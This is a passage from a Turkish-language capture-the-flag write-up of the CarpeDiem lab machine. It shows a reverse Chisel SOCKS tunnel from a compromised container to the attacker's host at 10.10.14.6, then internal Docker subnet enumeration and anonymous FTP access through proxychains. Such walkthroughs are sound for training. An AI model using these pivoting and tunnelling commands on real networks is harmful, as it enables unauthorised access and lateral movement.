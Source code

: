 #### Tunnel with Chisel

Bu noktada, bu ağa bir proxy almak için **[Chisel](https://github.com/jpillora/chisel)** yüklemek faydalı olabilir (ancak **CarpeDiem**'i bununla tamamlamak da mümkündür). **Python** ile barındıracağım ve ardından **wget** ile yükleyeceğim. Sonrasında ise sunucuyu sanal makinemde başlatacağım.

```
oxdf@hacky$ ./chisel_1.7.7_linux_amd64 server -p 8000 --reverse
2022/11/28 21:04:03 server: Reverse tunnelling enabled
2022/11/28 21:04:03 server: Fingerprint QgJndP8XXAYGo7Jf2+vSTSFH4iAa+tNYtrbWrm82J4k=
2022/11/28 21:04:03 server: Listening on http://0.0.0.0:8000
```

Ve konteynırdan bağlanacağım:

```
www-data@3c371615b7aa:/tmp$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:socks 
2022/11/28 21:05:25 client: Connecting to ws://10.10.14.6:8000
2022/11/28 21:05:25 client: Connected (Latency 86.893335ms)
```

Hem proxychains'i hem de FoxyProxy'yi bu socks proxy'yi kullanacak şekilde yapılandıracağım ve artık bu subnet üzerindeki hostlarla etkileşime geçebileceğim. Örneğin, .1 “Coming Soon” sitesini gösteriyor:

![Pasted image 20250108061950.png](/img/user/resimler/Pasted%20image%2020250108061950.png)


#### 172.17.0.1 - host

Tipik olarak Docker'da .1 host'tur. CarpeDiem için verilen IP'de gördüklerimle eşleşmesi de durumun böyle olduğuna dair iyi bir işaret.

#### 172.17.0.2 - backdrop

nmap bu hostun HTTP (80), HTTPS (443) ve FTP (21) üzerinde dinleme yaptığını gösterdi. HTTP sitesi sadece HTTPS'ye yönlendiriyor. Bu bir [Backdrop CMS](https://backdropcms.org/) örneğidir:

![Pasted image 20250108062038.png](/img/user/resimler/Pasted%20image%2020250108062038.png)

**backdrop.carpediem.htb** hostname'ini gösteriyor. Bunu **hosts** dosyama ekleyeceğim, ancak sanal makinemden doğrudan erişemiyorum. Giriş bilgilerine sahip değilim (yukarıdaki kimlik bilgileri çalışmıyor) ve **Backdrop CMS** için doğrulama gerektirmeyen herhangi bir açık bulamıyorum.

Host üzerinde bir FTP sunucusu var ve anonim girişe izin veriyor:

```
oxdf@hacky$ proxychains ftp 172.17.0.2
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.2:21  ...  OK
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:oxdf): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
